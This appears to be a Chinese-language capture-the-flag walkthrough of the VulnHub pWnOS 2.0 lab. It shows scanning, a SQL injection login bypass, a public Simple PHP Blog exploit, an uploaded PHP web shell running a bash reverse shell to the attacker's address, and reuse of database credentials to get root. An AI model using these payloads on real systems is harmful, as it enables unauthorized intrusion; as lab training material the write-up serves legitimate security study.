

> 靶机地址：[pWnOS: 2.0 (Pre-Release) ~ VulnHub](https://www.vulnhub.com/entry/pwnos-20-pre-release,34/)
>
> 下载地址：[**Download (Mirror)**](https://download.vulnhub.com/pwnos/pWnOS_v2.0.7z)


### 解决网络问题

下载之后用VMware打开，特别注意，这个靶机的ip是固定的`10.10.10.100`，我们需要将靶机设置为NAT模式，同时要将攻击机kali的ip也处于`10.10.10.0/24`这个网段，具体在菜单栏的编辑——虚拟网络编辑器，如下，点击更改设置，保证虚拟机的子网ip是`10.10.10.0`即可（否则可能扫不到靶机的ip）。




### nmap扫描

```
nmap --min-rate 10000 -p- 10.10.10.100
```


详细扫描

```bash
sudo nmap -sT -sV -O -p22,80 10.10.10.100
```


指定漏洞脚本扫描

```bash
 nmap --script=vuln -p22,80 10.10.10.100
```


80端口发现一个`csrf`，先往后放放

### Web渗透

由于只开放了`22`和`80`端口，所以先从`80`端口开始入手


点击`Login`，尝试sql注入，万能语句

```
1' or 1=1#
```


如上图，貌似是登录成功了，**说明确实存在注入**，但遗憾的是并没有任何回显，可能是做了过滤。其实这里我们**可以sqlmap进行POST型注入的一把梭哈**

找其他的路径，扫目录

#### 目录扫描

```bash
dirb http://10.10.10.100/
```


```bash
dirsearch -u  http://10.10.10.100/ -i 200
```


访问`/blog`，界面看着像CMS


找找有没有CMS的名字


也可以用`whatweb`识别


查找有没有相关漏洞

```bash
#查找
searchsploit Simple PHP Blog 0.4.0

#下载
searchsploit Simple PHP Blog 0.4.0  -m 1191.pl
```


查看该脚本的用法echo

```bash
 cat 1191.pl
```


脚本中的注释给了一些参数的使用方法，可知-h添加主机，-e进行利用，不同的序号给出了不同的利用方式。我们先试试Examples中给出的 -e 2，命令如下：

```bash
perl 1191.pl -h http://10.10.10.100/blog -e 2
```


如果出现运行报错Can't locate Switch.pm in @INC，应该是perl版本依赖未安装的问题，运行如下命令即可。

```bash
sudo apt install libswitch-perl
```

下载完依赖后，再次执行利用脚本


得到一串`hash`：`$1$weWj5iAZ$NU4CkeZ9jNtcP/qrPC69a/`，无法解密出来


尝试使用其他方法，可以使用-e 3添加一个用户名和密码

```bash
perl 1191.pl -h http://10.10.10.100/blog -e 3 -U hack -P hack
```


尝试登录`blog`


显示已经 登录成功！

在右下角的Menu菜单中有Upload Image模块，可以进行文件上传


上传`shell.php`代码

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.10.11/4567 0>&1'"); ?>
```


上传成功，存在文件上传漏洞，后台没有对前端上传的文件进行校验，现在就是要找出文件上传的位置，触发代码执行。

前期扫目录的时候扫除了`/blog/images/`


kali监听`4567`端口

点击`shell.php`触发代码，


反弹成功！

### 权限提升

拿到权限第一步就是看有哪些能以`root`身份运行


结果发现拿到的shell交互性不友好，

看看当前系统有没有`python`环境

```bash
dpkg -l | grep python*
```


那么就可以使用`python`获得好一点的交互shell

```python
python -c "import pty;pty.spawn('/bin/bash')"
```


发现是需要密码的

查看一下`/etc/passwd`，需要重点关注有`bash`环境的用户


在看见网站根目录下有什么东西，发现数据库的配置文件


找到数据库的登录账号和密码，尝试登录，结果失败了，再找找有没有其他路径下有这个文件

```bash
find / -name "mysqli_connect.php" 2>/dev/null
```


`root:root@ISIntS`


拿到用户`Dan`	的密码`c2c4b4e51d9e23c02c15702c136c3e950ba9a4af`

查看其加密方式

```bash
hash-identifier "c2c4b4e51d9e23c02c15702c136c3e950ba9a4af"
```


解密网站：https://hashes.com/en/decrypt/hash


得到明文：killerbeesareflying，拿着该密码与`dan`用户和`root`用户登录，结果都失败了


使用`root:root@ISIntS`登录成功，拿下root


数据库的登录密码竟然就是ssh登录的密码

